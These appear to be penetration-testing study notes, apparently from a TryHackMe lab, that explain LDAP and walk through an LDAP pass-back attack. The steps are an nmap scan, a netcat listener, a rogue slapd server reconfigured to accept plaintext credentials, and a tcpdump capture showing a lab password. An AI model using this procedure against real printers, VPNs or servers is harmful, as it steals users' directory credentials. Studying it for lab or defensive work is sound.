 --- ---
<h2>What is LDAP</h2>
LDAP (Lightweight Directory Access Protocol) is a protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network. It is used to access and manage directory information that is organized in a hierarchical manner, similar to a file system. LDAP directories are commonly used to store information such as user names, passwords, and email addresses, as well as other types of information such as security certificates and encryption keys.

LDAP is based on the X.500 standard and can be used to authenticate users and to provide access to resources on a network. When a client application needs to authenticate a user or retrieve information from the directory, it sends a request to the LDAP server using the LDAP protocol. The LDAP server processes the request and returns the requested information to the client if the request is valid.

LDAP servers provide a centralized location for storing and managing directory information, and client applications can use LDAP to query the directory and retrieve the information they need. LDAP is often used in conjunction with other protocols, such as Kerberos, to provide secure authentication and authorization services for a network.

There are two commonly used ports for LDAP traffic: port 389 and port 636. Port 389 is the default port for LDAP and is used for unencrypted LDAP traffic. Port 636 is the default secure port for LDAP and is used for LDAP traffic encrypted with SSL/TLS (Secure Sockets Layer/Transport Layer Security).

LDAP can be exploited over a rogue LDAP server in a number of ways. For example, an attacker could set up a fake LDAP server and configure it to impersonate a legitimate LDAP server. The attacker could then use the fake server to capture and misuse the credentials (PORT 389) of users who try to authenticate with it. An attacker could also use a rogue LDAP server to inject malicious content into the directory, such as false or misleading information, or to manipulate the directory in other ways.

---
<h3>Find LDAP Port</h3>
- Nmap
```Terminal
nmap -sV -sC IP -p389,636
```

- Possible to find LDAP on an other port

---
<h3>Attack</h3>
Type of place to exploit LDAP (Servers)
-   Gitlab
-   Jenkins
-   Custom-developed web applications
-   Printers
-   VPNs  

- Example of what your looking for
		![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/b2ab520a2601299ed9bf74d50168ca7d.png)

Simple Netcat Lisener (Might not work)
```
# Find server (Ex:printer) on the network where there is credential saved (View Pics)
# Setup your Local IP in the field and try ti capture it with Netcat
nc -lvp 389

# Send request in the browser (If this dont work, follow the rogue server technique)
```

Rogue Server (create a server that dictate how data should be share) -> Plain text | Login
```
# Download Tools
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

sudo dpkg-reconfigure -p low slapd

# Create a new file (location does not matter)
touch olcSaslSecProps.ldif
nano olcSaslSecProps.ldif (Add the following)
	#olcSaslSecProps.ldif
	dn: cn=config
	replace: olcSaslSecProps
	olcSaslSecProps: noanonymous,minssf=0,passcred

# Restart the service
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

# Check permission
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

# Launch the server
sudo tcpdump -SX -i INTERFACE tcp port 389

# Send request in the browser (See Picture)
```

Output (Example)
```
...
win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
	0x0000:  4500 0069 b093 4000 8006 20e6 0a0a 0ac9  E..i..@.........
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5018 2014 3afe 0000 3084 0000 003b 0201  P...:...0....;..
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```
- Example in this case the password is ---> password11